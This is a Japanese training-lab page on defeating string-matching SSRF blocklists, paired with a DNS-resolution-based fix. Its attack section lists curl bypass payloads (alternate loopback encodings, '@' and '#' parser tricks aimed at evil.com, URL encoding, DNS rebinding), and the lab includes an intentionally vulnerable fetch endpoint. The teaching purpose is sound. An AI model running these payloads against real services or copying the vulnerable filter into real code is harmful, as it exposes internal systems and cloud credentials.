


# SSRF Bypass — SSRFフィルタの回避テクニック

> SSRFの基本的な対策として導入されたブロックリスト（`localhost` や `127.0.0.1` の文字列マッチング）を、IPアドレスの代替表現やURLパーサの不整合を利用して回避できてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | SSRF対策としてURLの文字列マッチングによるブロックリストを導入しているが、IPアドレスの16進数・8進数表現、IPv6ループバック、URLパーサの不整合、DNS Rebinding等の手法で回避でき、内部サービスにアクセスできてしまう |
| **攻撃例** | `curl "http://localhost:3000/api/labs/ssrf-bypass/vulnerable/fetch?url=http://0x7f000001/"` で `localhost` ブロックを回避 |
| **技術スタック** | Hono API (URL取得エンドポイント) |
| **難易度** | ★★★ 上級 |
| **前提知識** | SSRFの基本（step06 の ssrf ラボ）、URLパーサの動作、DNSの基本 |

---

## この脆弱性を理解するための前提

### SSRFブロックリストの仕組み

基本的なSSRF対策として、サーバーがリクエストを発行する前にURLの宛先を検証し、`localhost` や `127.0.0.1`、プライベートIPレンジへのアクセスを拒否するブロックリスト方式がある。

```
ユーザー → サーバー: 「このURLの内容を取得して」
サーバー: URLに "localhost" や "127.0.0.1" が含まれるか？
  → 含まれる → 403 拒否
  → 含まれない → リクエストを発行 → レスポンスを返す
```

この仕組みは一見安全に見えるが、IPアドレスやホスト名には**多数の代替表現**が存在する。文字列マッチングだけでは全てのバリエーションをカバーできない。

### どこに脆弱性が生まれるのか

問題は、ブロックリストが**文字列の部分一致や正規表現マッチング**に依存している場合に発生する。IPアドレスは10進数以外にも16進数、8進数、IPv6、さらにはURLエンコーディングで表現できる。また、URLの構文にはユーザー情報（`@`）やフラグメント（`#`）といった要素があり、パーサの実装によって解釈が異なる。

```typescript
// ⚠️ この部分が問題 — 文字列マッチングによるブロックリストは回避可能
app.get('/api/fetch-url', async (c) => {
  const url = c.req.query('url');

  // 単純な文字列マッチングでブロック
  const blocked = ['localhost', '127.0.0.1', '169.254.169.254', '10.', '192.168.'];
  if (blocked.some(b => url!.toLowerCase().includes(b))) {
    return c.json({ error: 'アクセスが拒否されました' }, 403);
  }

  // → "localhost" はブロックされるが、
  //   "0x7f000001" (127.0.0.1の16進表現) は通過してしまう
  const response = await fetch(url!);
  const body = await response.text();
  return c.json({ content: body });
});
```

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** がブロックリストの存在を確認する

   まず `http://localhost/` や `http://127.0.0.1/` を指定してSSRFを試みるが、ブロックリストにより403エラーが返される。これにより、文字列マッチングによるフィルタが存在することがわかる。

   ```bash
   # ブロックされるリクエスト
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://localhost:8080/admin"
   # → 403 {"error": "アクセスが拒否されました"}

   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://127.0.0.1:8080/admin"
   # → 403 {"error": "アクセスが拒否されました"}
   ```

2. **攻撃者** がIPアドレスの代替表現を使って回避を試みる

   `127.0.0.1` はIPv4アドレスの10進表記に過ぎない。同じアドレスを異なる形式で表現できる。これらの代替表現は文字列マッチングのブロックリストに含まれていないため、フィルタを通過する。

   ```bash
   # 16進数表現 (0x7f000001 = 127.0.0.1)
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://0x7f000001/"

   # 8進数表現 (0177.0.0.1 = 127.0.0.1)
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://0177.0.0.1/"

   # IPv6ループバック ([::1] = 127.0.0.1)
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://[::1]/"

   # 10進数の単一整数表現 (2130706433 = 127.0.0.1)
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://2130706433/"

   # IPv6マップドIPv4 ([::ffff:127.0.0.1])
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://[::ffff:127.0.0.1]/"
   ```

3. **攻撃者** がURLパーサの不整合を利用する

   URLの仕様（RFC 3986）ではユーザー情報を `@` で区切る。一部のパーサは `@` の前をユーザー情報、後をホスト名として解釈するが、ブロックリストは単純な文字列マッチングのため、`localhost` がURL内に含まれていても `@` 以降のホスト名が実際の接続先になる場合がある。

   ```bash
   # URLパーサの混乱を利用 — 実際の接続先は evil.com
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://localhost@evil.com/"

   # フラグメントを利用した混乱
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://evil.com%23@localhost/"

   # URLエンコーディングによる回避
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://%31%32%37%2e%30%2e%30%2e%31/"

   # ダブルエンコーディング (サーバーが2回デコードする場合)
   curl "http://target.com/api/labs/ssrf-bypass/vulnerable/fetch?url=http://%2531%2532%2537%252e%2530%252e%2530%252e%2531/"
   ```

4. **攻撃者** がDNS Rebindingを使って回避する

   攻撃者が管理するドメイン（例: `attacker-rebind.example.com`）を用意し、DNSサーバーを設定する。最初のDNSクエリでは外部IP（検証を通過するため）を返し、2回目のDNSクエリでは`127.0.0.1` を返す。サーバーがDNS解決とリクエスト発行のタイミングが異なる場合、検証時は外部IPだったのに実際のリクエストは内部IPに送信される。

   ```
   [DNS解決 1回目: 検証用] attacker-rebind.example.com → 93.184.216.34 (外部IP) → 検証通過
   [DNS解決 2回目: fetch時] attacker-rebind.example.com → 127.0.0.1 (ループバック) → 内部アクセス成功
   ```

5. **サーバー** がフィルタを通過したリクエストを内部ネットワークに送信する

   上記のいずれかの手法でブロックリストを回避すると、サーバーは自身のネットワーク権限でリクエストを発行する。結果として、基本的なSSRFと同じく内部サービスやメタデータAPIにアクセスできる。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| 文字列マッチングによるブロックリスト | ブロックリストが「文字列にlocalhostを含むか」のようなパターンマッチングに依存しているため、同一アドレスの別表現で回避可能 |
| IPアドレスの多様な表現形式 | `127.0.0.1` は16進数、8進数、10進整数、IPv6、IPv4マップドIPv6など多数の形式で表現でき、全てを文字列リストで網羅するのは不可能 |
| URLパーサの実装差異 | URLのユーザー情報部分（`@`前）やフラグメント（`#`後）の扱いがパーサごとに異なり、検証ロジックと実際のリクエスト先が一致しない場合がある |
| DNS解決のTOCTOU（Time of Check to Time of Use） | URLの検証時と実際のリクエスト時でDNS解決結果が変わり得るため、DNS Rebindingで検証を通過できる |

### 被害の範囲

- **機密性**: 基本的なSSRFと同等。クラウドメタデータからの一時クレデンシャル取得、内部APIの機密データ漏洩。ブロックリストの存在が防御の錯覚を生み、監視が甘くなっている場合がある
- **完全性**: 内部管理パネルへのアクセスによる設定変更やデータ改ざん。SSRFフィルタの存在により「対策済み」と認識されているため、被害の発見が遅れる可能性がある
- **可用性**: 内部サービスへの大量リクエストによる過負荷。ブロックリスト回避のテクニックは自動化ツールで大量に試行可能

---

## 対策



### 根本原因

文字列マッチングによるブロックリスト方式では、IPアドレスやURLの無数の代替表現を全て網羅することが不可能である。**URLの文字列を検証するのではなく、実際にDNS解決された結果のIPアドレスを検証**し、さらにブロックリスト（拒否リスト）ではなくアローリスト（許可リスト）で制御する必要がある。

### 安全な実装

URLの文字列を見るのではなく、ホスト名をDNS解決して得られたIPアドレスがプライベートIPレンジに含まれるかを検証する。さらに、DNS Rebinding対策として、DNS解決で得られたIPアドレスを直接使ってリクエストを発行する（ホスト名による再解決を防ぐ）。

```typescript
// ✅ DNS解決後のIPアドレスを検証し、解決済みIPでリクエストを発行
import { promises as dns } from 'node:dns';
import { isIP } from 'node:net';

// プライベートIPレンジの判定
function isPrivateIP(ip: string): boolean {
  const parts = ip.split('.').map(Number);
  return (
    parts[0] === 127 ||                              // 127.0.0.0/8 ループバック
    parts[0] === 10 ||                               // 10.0.0.0/8
    (parts[0] === 172 && parts[1] >= 16 && parts[1] <= 31) || // 172.16.0.0/12
    (parts[0] === 192 && parts[1] === 168) ||        // 192.168.0.0/16
    (parts[0] === 169 && parts[1] === 254) ||        // 169.254.0.0/16 リンクローカル
    ip === '0.0.0.0'                                 // 全インターフェース
  );
}

// IPv6プライベートアドレスの判定
function isPrivateIPv6(ip: string): boolean {
  const normalized = ip.toLowerCase();
  return (
    normalized === '::1' ||                          // ループバック
    normalized.startsWith('fc') ||                   // ユニークローカル
    normalized.startsWith('fd') ||                   // ユニークローカル
    normalized.startsWith('fe80') ||                 // リンクローカル
    normalized.startsWith('::ffff:')                 // IPv4マップドIPv6（別途IPv4検証が必要）
  );
}

app.get('/api/fetch-url', async (c) => {
  const url = c.req.query('url');
  if (!url) {
    return c.json({ error: 'URLが必要です' }, 400);
  }

  // プロトコルの検証 — http/https のみ許可
  let parsed: URL;
  try {
    parsed = new URL(url);
  } catch {
    return c.json({ error: '無効なURLです' }, 400);
  }
  if (!['http:', 'https:'].includes(parsed.protocol)) {
    return c.json({ error: '許可されていないプロトコルです' }, 400);
  }

  // ホスト名をDNS解決し、実際のIPアドレスを取得
  let resolvedIP: string;
  try {
    // IPv4とIPv6の両方を解決
    const hostname = parsed.hostname.replace(/^\[|\]$/g, ''); // IPv6のブラケットを除去
    if (isIP(hostname)) {
      // 直接IPが指定された場合はそのまま使用
      resolvedIP = hostname;
    } else {
      const addresses = await dns.resolve4(hostname);
      resolvedIP = addresses[0];
    }
  } catch {
    return c.json({ error: 'ホスト名を解決できません' }, 400);
  }

  // 解決済みIPアドレスがプライベートIPかチェック
  if (isPrivateIP(resolvedIP) || isPrivateIPv6(resolvedIP)) {
    return c.json({ error: '内部ネットワークへのアクセスは許可されていません' }, 403);
  }

  // DNS Rebinding対策: 解決済みIPアドレスを直接使ってリクエスト
  // ホスト名を再度DNS解決させない
  const targetUrl = new URL(url);
  targetUrl.hostname = resolvedIP;

  const response = await fetch(targetUrl.toString(), {
    headers: {
      // 元のHostヘッダーを維持（バーチャルホスト対応）
      Host: parsed.host,
    },
  });
  const body = await response.text();
  return c.json({ content: body });
});
```

#### 脆弱 vs 安全: コード比較

```diff
  app.get('/api/fetch-url', async (c) => {
    const url = c.req.query('url');
-   // 文字列マッチングによるブロックリスト
-   const blocked = ['localhost', '127.0.0.1', '169.254.169.254'];
-   if (blocked.some(b => url!.toLowerCase().includes(b))) {
-     return c.json({ error: 'アクセスが拒否されました' }, 403);
-   }
-   const response = await fetch(url!);
+   const parsed = new URL(url!);
+   // プロトコル検証
+   if (!['http:', 'https:'].includes(parsed.protocol)) {
+     return c.json({ error: '許可されていないプロトコルです' }, 400);
+   }
+   // DNS解決して実際のIPアドレスを取得
+   const addresses = await dns.resolve4(parsed.hostname);
+   const resolvedIP = addresses[0];
+   // 解決済みIPアドレスがプライベートIPかチェック
+   if (isPrivateIP(resolvedIP)) {
+     return c.json({ error: '内部ネットワークへのアクセスは許可されていません' }, 403);
+   }
+   // 解決済みIPで直接リクエスト（DNS Rebinding対策）
+   const targetUrl = new URL(url!);
+   targetUrl.hostname = resolvedIP;
+   const response = await fetch(targetUrl.toString(), {
+     headers: { Host: parsed.host },
+   });
    const body = await response.text();
    return c.json({ content: body });
  });
```

脆弱なコードでは文字列リスト（`localhost`, `127.0.0.1`等）に含まれるかどうかしか見ていないため、16進数(`0x7f000001`)やIPv6(`[::1]`)のような代替表現で回避できる。安全なコードでは、ホスト名の表現形式に関係なくDNS解決後の実際のIPアドレスを検証するため、どのような表現で指定しても最終的に同じIPアドレスとして検出される。さらに、解決済みIPで直接リクエストを発行することで、DNS Rebinding攻撃も防止できる。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| DNS解決後のIPアドレス検証 | 根本対策 | 文字列マッチングではなく、DNS解決されたIPアドレスがプライベートIPレンジに含まれるかを検証する。これが最も重要で必須の対策 |
| アローリスト（許可リスト）方式 | 根本対策 | ブロックリスト（何を拒否するか）ではなくアローリスト（何を許可するか）を使用する。許可するドメインやIPレンジを明示的にリストアップし、それ以外を全て拒否する |
| DNS Rebinding対策（DNS pinning） | 根本対策 | DNS解決で得られたIPアドレスを直接使ってリクエストを発行し、リクエスト時にホスト名の再解決を行わない。検証時と通信時でIPが変わることを防ぐ |
| URLパーサの統一 | 多層防御 | 検証ロジックとHTTPクライアントで同じURLパーサ（`new URL()`）を使用し、解釈の不整合を防ぐ |
| 送信元ネットワークの分離 | 多層防御 | URL取得処理を専用のプロキシサーバーやコンテナで実行し、そのネットワークから内部サービスにアクセスできないように分離する |
| レスポンスの制限 | 検知 | レスポンスのサイズや内容タイプを制限し、意図しないデータの漏洩を最小化する。また、内部IP向けリクエストの試行をログに記録して監視する |

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/ssrf-bypass/vulnerable/fetch` |
| 安全エンドポイント | `/api/labs/ssrf-bypass/secure/fetch` |
| バックエンド | `backend/src/labs/step06-server-side/ssrf-bypass.ts` |
| フロントエンド | `frontend/src/labs/step06-server-side/pages/SSRFBypass.tsx` |

- 脆弱版では `url.includes('localhost')` のような文字列マッチングでブロックリストを実装
- 安全版では `dns.resolve4()` でDNS解決後のIPアドレスを検証し、解決済みIPで直接リクエスト
- テスト用に内部サービスを模したエンドポイント（`/internal/secret` 等）を用意し、回避の成否を確認できるようにする
- 各代替表現（16進数、8進数、IPv6等）の変換テーブルをフロントエンドに表示すると学習効果が高い

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2019 | Capital One (SSRFフィルタ回避) | WAF（Web Application Firewall）のSSRFフィルタが不完全であったため、特定のリクエスト形式でフィルタを回避し、AWSメタデータAPIから一時クレデンシャルを取得。1億件以上の顧客情報が漏洩した |
| 2020 | GitLab SSRF (CVE-2021-22214) | GitLabのWebhook機能でSSRFフィルタが存在していたが、IPv6アドレスやDNS Rebindingを利用した回避手法が報告された。内部ネットワークへのアクセスが可能となった |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [SSRF](../ssrf/ssrf.mdx) | 本ラボの前提。基本的なSSRFの仕組みと対策を理解した上で、その対策の回避手法を学ぶ |
| [XXE](../xxe/xxe.mdx) | XXEの外部エンティティ参照でもSSRFと同等の内部アクセスが可能であり、同様のフィルタ回避テクニックが適用できる |

---

## 実際に試す

このラボの攻撃と防御を実際に体験できます。

[→ 実際に試す](./ssrf-bypass-tryit.mdx)

---

## 理解度テスト

学んだ内容をクイズで確認してみましょう:

- [SSRFフィルタ回避 - 理解度テスト](./ssrf-bypass-quiz.mdx)

---

## 参考資料

- [OWASP - Server-Side Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP - SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [Orange Tsai - A New Era of SSRF](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
